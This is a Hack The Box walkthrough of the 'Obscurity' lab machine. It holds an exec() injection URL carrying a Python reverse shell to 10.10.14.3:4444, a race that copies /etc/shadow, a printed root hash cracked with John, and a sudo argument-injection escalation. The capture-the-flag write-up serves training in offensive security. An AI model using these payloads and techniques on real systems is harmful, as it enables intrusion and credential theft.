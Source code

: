 ```yaml
---
layout: writeup
redirect_from: /walkthroughs/obscurity.html
title: Obscurity
show-avatar: false
logo: /assets/img/writeups/htb/boxes/obscurity/obscurity_logo.png
platform: HTB
category: Boxes
OS: Linux
difficulty: Medium
release: 30 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/83743">clubby789</a>
published: 2019 12 03
---
```


**Cliffs:** Find source code for the webserver in hidden directory and analyze it to figure out RCE that will give low privilege shell. In user directory there is a python encryption script we can use to figure out users password. As user we can run a python script meant to replace SSH that we can use to gain access to roots password hash or simply to access the root flag.

<h2 align="center">Enumeration</h2>


Starting with standard nmap scan...

```
# Nmap 7.80 scan initiated Sun Dec  1 14:14:06 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.168                                                        
Nmap scan report for 10.10.10.168                             
Host is up (0.076s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)   
80/tcp   closed http 
8080/tcp open   http-proxy BadHTTPServer
_http-server-header: BadHTTPServer
_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  1 14:16:09 2019 -- 1 IP address (1 host up) scanned in 123.63 seconds
```

If we navigate to the website on port **8080** we see a webpage for a company with a rather interesting take on security. If we run **gobuster** or similar we won't find any useful directories. However reading the page, at the bottom we see 

![secret](/assets/img/writeups/htb/boxes/obscurity/obscurity_webpage.png)

So we know there is a file for us to find, so lets use the following **wfuzz** command to find the directory

```
wfuzz -c -w /usr/share/wordlists/dirb/small.txt 10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

![wfuzz](/assets/img/writeups/htb/boxes/obscurity/obscurity_wfuzz.png)

Navigating to *ht<span>tp://</span>10.10.10.168:8080/develop/SuperSecureServer.py* we are greeted by the code.

Analyzing the code, in the serveDoc() function we see

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Since we have control over the path, we can use that to get exec() to run code we want. We just need to make sure and correctly handle the closing of quotes, since the first part of the info variable is something we don't have control over (output = 'Document: ), nor is the very last character (a single quote). We want to get it into the form

```python
output = 'Document: '
<our code for a shell>
''
```

but since it's all one line in a string, we will use a semi colon. So info will actually look like

```python
info = "output = 'Document: ';<our code for a shell>;''"
```

so our path will be

```
10.10.10.168:8080/';<our shell code>;'
```

So what should we use to get a shell? We know the box is running python, so lets use the python reverse shell from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python">PayloadsAllTheThings</a>. The script has already imported socket, subprocess, and os, so we can remove those. So our path is the following

```
10.10.10.168:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'
```

If we set a netcat listener and visit that url, we will found ourselves with a shell as user **www-data**

![shell](/assets/img/writeups/htb/boxes/obscurity/obscurity_shell.png)

Enumerating the machine will turn up a number of interesting files in the */home/robert* directory.
We have **check.txt** which outputs

```
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

So it looks like we have a plaintext and a ciphertext (**out.txt**), so let's take a look at **SuperSecureCrypt.py** and see if we can figure out how it's encrypting things. Looking at the encrypt() function

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

The key line is

```python
newChr = chr((newChr + ord(keyChr)) % 255)
```

It is simply tacking a character from the plaintext and adding it to a character from the key and outputting the resulting character. This is a **Vigenere cipher**. So if we have *plaintext + key = ciphertext*, to get the key just like solving any formula we subtract plaintext from each side of the equation and have *key = ciphertext - plaintext*. We have a plaintext and ciphertext pair (check.txt and out.txt), so we could write a simple script to do the subtraction, but we don't need to. If we look at the decrypt() function we see it operates by subtracting the key from the ciphertext to give the plaintext. If instead we give it our plaintext as they key, it will give us the key. We copy the necessary files to */dev/shm* since we don't have write access in the robert directory

```
www-data@obscure:/dev/shm$ python3 SuperSecureCrypt.py -i out.txt -o key.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to key.txt...
www-data@obscure:/dev/shm$ cat key.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

The key is **alexandrovich**, which we can now use to decrypt **passwordreminder.txt**, which decrypts to **SecThruObsFTW**, which is the ssh and user pass for robert, we now have access to user.txt

<h2 align="center">On To Root!</h2>
So now that we are user we can check out the **BetterSSH.py** file in */home/robert/BetterSSH/*. We could read it before, but as we will see the code is accessing the /etc/shadow file, so we need root permisions to make it work. Which we fortunately have with robert as we can see below

```
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

The script gets the password hashes from the */etc/shadow* file and then compares it to the hash of the password you enter for a user. If they match then it gives you a faux shell. 



**Method #1:** 
Fortunatelyfor us, for some reason the script also copies the output of the shadow file to a random file in */tmp/SSH*/ as shown in the snippet of code below

```python
passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Unfortunately after it pauses for .1 seconds, every code path then leads to the deletion of that file. However, we don't need anymore time than that. Using **Watch** which is a linux program that runs a command repeatedly and also allows us to set the interval to .1 seconds, we will watch */tmp/SSH*/ and have it copy the directory every .1 seconds. When the password file is written to that directory, watch will grab a copy of it before it's deleted. We issue the following command

```
robert@obscure:~/BetterSSH$ watch -n .1 cp /tmp/SSH/* /dev/shm
```

Also make sure to create the */SSH/* directory if it doesn't already exist. Watch takes over the terminal, so we will need to open a seperate SSH session as robert so we can run the python script.

```
robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 
Enter username: Hilbert
Enter password: blahblahblah
Invalid user
robert@obscure:/dev/shm$ ls 
BCozoXF5
```

We have succesfuly copied the file. Looking at the file we can see the hash for user root is

```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

Lets crack it! Using **John the ripper** and the wordlist **rockyou.txt**. We issue the following commands
![crack](/assets/img/writeups/htb/boxes/obscurity/obscurity_mercedes.png)

As we can see the root password is *mercedes*. And we now have access to the root flag.

![root](/assets/img/writeups/htb/boxes/obscurity/obscurity_root.png)



**Method #2:**
Looking at the script we see If we enter a correct password for user, we are authenticated and get a "shell"

```python
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Every command we enter is prefixed with *sudo -u \<username\>*, but since the script is running as root we can just append another *-u* flag on to execute commands as root. Since we have the password for robert we are able to authenticate via the script
![method2](/assets/img/writeups/htb/boxes/obscurity/obscurity_method2.png)
